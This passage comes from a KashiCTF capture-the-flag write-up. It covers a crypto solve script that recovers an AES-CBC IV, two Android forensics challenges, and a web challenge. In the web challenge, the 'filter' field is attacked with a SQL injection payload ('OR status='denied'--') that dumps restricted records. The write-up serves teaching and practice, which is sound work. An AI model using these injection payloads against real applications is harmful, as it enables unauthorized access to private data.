        # Compute original IV
        known_pt = pt[:8]
        iv = bytes(a ^ b for a, b in zip(b"KashiCTF", known_pt)) * 2
        r.sendlineafter(b"Enter iv: ", iv.hex().encode())
        r.recvline()

    # Grab real flag
    json_data = r.recvline().decode()
    data = json.loads(json_data)
    key = bytes.fromhex(data["key"])
    ciphertext = bytes.fromhex(data["ciphertext"])
    pt = decrypt(key, ciphertext, "CBC", iv=b"\x00" * 16)
    known_pt = pt[:8]
    iv = bytes(a ^ b for a, b in zip(b"KashiCTF", known_pt)) * 2

    pt = unpad(decrypt(key, ciphertext, "CBC", iv=iv), 16).decode()
    print(pt)


if __name__ == "__main__":
    main()
```

Flag: `KashiCTF{AES_Unbr34KAbl3_but_t0T4lly_br3Akable_mAyb3_colAuXxx}`

## Dfir

### Do Not Redeem #1

It can be supposed the OTP code is received by SMS. The user SMS data is stored in `./data/user/0/com.android.providers.telephony/databases/mmssms.db`, which can be edited with any SQLite editor such as SQLiteStudio.

The `sms` table cotains all the messages sent and received by the user. There are only two messages. The first one is the one we are looking for:

> 839216 is your Amazon OTP. Don't share it with anyone.

Timestamp at which kitler received the OTP is in the `date` field: 1740251608654. We then have the flag.

Flag: `KashiCTF{839216_1740251608654}`

### Do Not Redeem #2

We were running out of time so we did wild guessing with this challenge. As the number of possible package names was quite low, we tried the names of the non-system apps located in data/app:

```shell
$ ls data/app/*
data/app/~~4YfOtYFWDhRUXa17yHzRwg==:
com.android.chrome-CG1zw8st0xVbevjtVlKZeA==

data/app/~~eMXC-RSihqJRS7FC69Zh5Q==:
com.instagram.lite-8PChSgO3IptroqQtK8c5vQ==

data/app/~~L7YIhfdSr2fp7g7xJw5EJA==:
com.facebook.lite-Ggfz8AodxJxZtTRj9vcrvQ==

data/app/~~o_k0H1Q8rHN7uKw0Ru8MUQ==:
com.mojang.minecraftpe-WQRxX4DYgXeTOkwCZLpotA==

data/app/~~tLAl9Y9jaNr2kUyWpsTvlw==:
com.google.android.webview-t-1xjWj6vWxj9dCOWbktGg==

data/app/~~UL3Lefa5zqUNERpuoRFbDg==:
com.google.calendar.android--oKQC2Mw2aVpxTKRcybKnw==

data/app/~~wO17uFzpDUO2PFLCf5Tg6g==:
com.amazon.mShop.android.shopping-oYLvO1ITa73MCDL2iRz1Fw==

data/app/~~yjJM55g1FD4GkNE0OTfOIQ==:
com.google.android.trichromelibrary_636771938-GIXweTIxJwXfsHFBxI29YA==

data/app/~~yps67ej5BVmUGNspvIpcNA==:
com.discord--vUJ-073y2BPpJsJHJa6Rw==
```

If I remember correctly, I've tried them in order, skipping chrome and webview: `com.instagram.lite`, `com.facebook.lite`, `com.mojang.minecraftpe` (not sure if I tried this one) and `com.google.calendar.android`, which ended up being the correct one.

Flag: `KashiCTF{com.google.calendar.android}`

## Web

### Corporate Life 1

A hidden route for a testing version of the web application is present in the build manifest:

```javascript
self.__BUILD_MANIFEST = function(e, r, s) {
    return {
        __rewrites: {
            afterFiles: [],
            beforeFiles: [],
            fallback: []
        },
      // [...]
        "/": ["static/chunks/pages/index-6413244cd5618b98.js"],
        "/_error": ["static/chunks/pages/_error-fde50cb7f1ab27e0.js"],
        "/v2-testing": ["static/chunks/pages/v2-testing-fb612b495bb99203.js"],
        sortedPages: ["/", "/_app", "/_error", "/v2-testing"]
    }
}(0, 0, 0),
self.__BUILD_MANIFEST_CB && self.__BUILD_MANIFEST_CB();
```

The new application is acccessible at http://kashictf.iitbhucybersec.in:58009/v2-testing.

Contrary to the older version of the website, which listed employee requests with a GET request on `/api/list`, this one posts a request on `/api/list-v2`. It can filter employees by name, with the "name" field in the POST request, or by department, using the "filter" field.

There is a SQL injection in the "filter" field. This can be seen with such requests, that lead to a server error:

```python
import requests

r = requests.post("http://kashictf.iitbhucybersec.in:58009/api/list-v2", data={"filter": "'"})
print(r.json())
```

The error message is `{'error': 'Internal Server Error: Database communication failed'}`.

We know the user that stored a secret has a "denied" status. A possible injection to list such users would be: `{"filter": "Finance' OR status='denied'--"}`.

This returns the list of employees with a denied request:

```json
[
  {'employee_name': 'olivia.king', 'request_detail': 'Review vendor contracts', 'status': 'denied', 'department': 'Finance', 'role': 'Accountant', 'email': 'olivia.king@corp.com'}
  {'employee_name': 'peter.johnson', 'request_detail': 'Shitty job, I hate working here, I will leak all important information like KashiCTF{s4m3_old_c0rp0_l1f3_LcUDGCBs}', 'status': 'denied', 'department': 'Logistics', 'role': 'Supply Chain Manager', 'email': 'peter.johnson@corp.com'}
  {'employee_name': 'richard.collins', 'request_detail': 'Draft public relations statement', 'status': 'denied', 'department': 'Public Relations', 'role': 'PR Specialist', 'email': 'richard.collins@corp.com'}
]
```

Flag: `KashiCTF{s4m3_old_c0rp0_l1f3_LcUDGCBs}`